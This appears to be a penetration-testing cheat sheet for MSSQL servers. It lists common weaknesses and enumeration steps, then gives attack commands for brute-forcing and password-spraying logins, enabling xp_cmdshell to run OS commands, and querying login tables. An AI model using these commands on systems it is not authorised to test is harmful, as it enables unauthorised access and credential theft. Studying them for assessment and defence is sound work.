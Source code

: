 ## Security Assessment

### Common Vulnerabilities
1. **Default Credentials**: SA account with weak passwords
2. **Windows Authentication**: Compromised domain accounts
3. **Missing Encryption**: Plaintext communication
4. **Excessive Permissions**: Over-privileged database users
5. **Outdated Software**: Unpatched MSSQL instances

### Enumeration Checklist
- [ ] Port scan for 1433
- [ ] Service version detection
- [ ] Hostname extraction
- [ ] Authentication method testing
- [ ] Default credential testing
- [ ] Database enumeration
- [ ] System database analysis
- [ ] Custom database discovery
- [ ] User and permission assessment

## Attack Vectors

### 1. Credential-based Access
```bash
# Brute force SA account
hydra -l sa -P passwords.txt mssql://target

# Password spraying
crackmapexec mssql target -u users.txt -p passwords.txt
```

### 2. Command Execution
```bash
# Enable xp_cmdshell
SQL> EXEC sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;

# Execute commands
SQL> EXEC xp_cmdshell 'whoami';
```

### 3. Data Extraction
```bash
# Extract sensitive data
SQL> SELECT * FROM sys.sql_logins;

# Access system databases
SQL> USE master;
SQL> SELECT * FROM sys.server_principals;
```
